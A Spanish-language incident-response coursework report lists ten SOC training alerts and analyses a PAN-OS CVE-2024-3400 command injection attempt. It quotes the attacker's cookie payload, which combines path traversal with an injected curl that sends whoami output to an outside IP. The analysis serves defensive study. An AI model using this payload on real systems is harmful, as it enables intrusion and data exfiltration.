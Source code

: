 # 4.2 Respuesta y seguimiento de incidentes (RA4.def)
## Índice

1. [SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400)](#1)
2. [SOC227 - Microsoft SharePoint Server Elevation of Privilege - Possible CVE-2023-29357 Exploitation](#2)
3. [SOC170 - Passwd Found in Requested URL - Possible LFI Attack](#3)
4. [SOC202 - FakeGPT Malicious Chrome Extension](#4)
5. [SOC239 - Remote Code Execution Detected in Splunk Enterprise](#5)
6. [SOC175 - PowerShell Found in Requested URL - Possible CVE-2022-41082 Exploitation](#6)
7. [SOC235 - Atlassian Confluence Broken Access Control 0-Day CVE-2023-22515](#7)
8. [SOC168 - Whoami Command Detected in Request Body](#8)
9. [SOC164 - Suspicious Mshta Behavior](#9)
10. [SOC251 - Quishing Detected (QR Code Phishing)](#10)

## SOC274 - Palo Alto Networks PAN-OS Command Injection Vulnerability Exploitation (CVE-2024-3400) <div id="1" />

1. Trabaja una memoria del trabajo realizado en la resolución de los incidentes. Tipo según taxonomía, Criticidad, Descripción del incidente para entender que ha sucedido. Utiliza imágenes y cualquier tipo de explicación y diagrama que permita aclarar tu trabajo.

- Taxonomia: Command Injection on Software
- Criticidad: Alto
- Descripción: Una vulnerabilidad de inyección de comandos se ha encontrado en el software de Palo Alto Networks PAN-OS 

Lo primero al revisar la incidencia, podemos ver que ya transmite un CVE, siendo el [CVE-2024-3400](https://security.paloaltonetworks.com/CVE-2024-3400), el cual revisaremos para detectar cual es dicha vulnerabilidad, y podemos comprobar que es una en la que tiene varios tipos de debilidades, los cuales son: Creación arbitraria de ficheros, Path Traversal y OS Command Injection.

![Untitled](imagenes_edu/Incidente1-1.PNG)

El PA-Firewall-01 recibió una petición POST de la IP 144.172.79.92, siendo esta ‘/global-protect/login.esp/'. Como es lógico, el firewall lo detectó como la vulnerabilidad anteriormente mencionada, dado que detectó un SSEID alterado por el atacante, mostrando “SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa\curl${IFS}144.172.79.92:4444?user=$(whoami)`”, que pretendía hacer el comando curl con el nombre de usuario. Debido a la seriedad del asunto, se escaló al L2 para una investigación más profunda.
